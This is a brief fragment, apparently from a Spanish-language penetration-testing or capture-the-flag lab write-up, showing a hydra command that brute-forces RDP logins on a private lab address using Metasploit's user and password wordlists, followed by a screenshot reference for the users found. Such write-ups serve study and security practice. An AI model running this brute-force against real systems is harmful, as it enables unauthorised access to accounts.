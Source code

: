 ```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333
```
Y nos encuentra los siguientes usuarios:
![[Pasted image 20240613010400.png]]

